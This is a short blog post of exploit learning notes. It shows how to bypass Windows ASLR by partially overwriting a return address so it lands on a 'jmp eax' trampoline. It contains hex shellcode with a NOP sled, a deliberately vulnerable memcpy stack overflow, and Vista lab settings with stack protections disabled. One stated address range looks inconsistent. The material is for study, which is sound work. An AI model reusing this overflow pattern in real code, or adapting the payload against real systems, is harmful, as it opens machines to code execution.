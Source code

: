 ```yaml
---
title: Exploit learning notes 018 using partial overlay location
description: exploit partial override to locate shellcode
date: 2020-11-26 17:54:00+0800
categories:
    - Exploit
tags:
    - Windows
    - ASLR
    - off-by-word
---
```


Source: [Moeomu's blog](/posts/exploit-learning-notes-018-using-partial-overlay-location/)

## Principle

- The image randomization instructions randomize the full two bytes of the image load base address, the consequence of this is that the springboard is always available, so you can use this to bypass ASLR
- If you attack memcpy, you can control the return value between `0xXXXX0000` and `0xXXXXFFFF`, and if you attack str-like function attacks, you can control the address to one between `0xXXXX0100` and `0xXXXX00FF`.

## Process

- first find a jmp eax assembly code within the compiled program, followed by the low word of its address as the `off by word` address, fill in the shellcode
- Calculate the buffer size, after the overflow will be normal

## Code

```cpp
#include <memory.h>

char shellcode[] =
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" // payload
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x2A\x23" // off by word
;

char* test()
{
	char tt[256];
	memcpy(tt, shellcode, 262);
	return tt;
}

int main()
{
	char temp[200];
	test();
	return 0;
}
```

## Start experiment

> Experimental environment: system: Windows Vista SP0, system DEP status: Optin default, compiler: Visual Studio 2008, optimization: disable optimization, GS option: off, DEP option: /NXCOMPAT:NO, build version: release

- Compile the program, run it, the window pops up directly and succeeds, and restart the same, as shown in the picture

![Success](success.png)
